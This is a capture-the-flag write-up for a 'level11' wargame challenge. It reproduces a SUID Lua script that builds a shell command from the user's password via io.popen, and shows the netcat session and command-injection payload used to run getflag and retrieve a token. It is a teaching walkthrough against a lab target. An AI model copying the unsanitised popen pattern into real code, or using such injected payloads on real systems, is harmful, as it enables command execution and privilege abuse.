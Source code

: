 # Level 11 - Command Injection Exploit

This level demonstrates a **command injection** vulnerability in a Lua script.

---

## Step 1: Inspect the Directory

```bash
ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
```

    level11.lua is SUID and runs with flag11's privileges.

Step 2: Examine the Lua Script

```bash
cat level11.lua
```

The script content:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog\:read("*all")
  prog\:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server\:accept()
  client\:send("Password: ")
  client\:settimeout(60)
  local l, err = client\:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client\:send("Erf nope..\n");
      else
          client\:send("Gz you dumb*\n")
      end

  end

  client\:close()
end
```

The program waits for a connection on port 5151 and asks for a password. By using io.popen, we can inject a script.
Step 3: Exploit the Command Injection

```bash
nc 0.0.0.0 5151
Password: \";getflag > /tmp/token;\"
Erf nope..
```

Step 4: Retrieve the Token

```bash
cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

✅ Summary

    Command Injection: The use of io.popen allowed us to inject a command to retrieve the flag.
    The level11.lua script failed to securely handle user input.
    This exposed a restricted file by executing arbitrary commands.
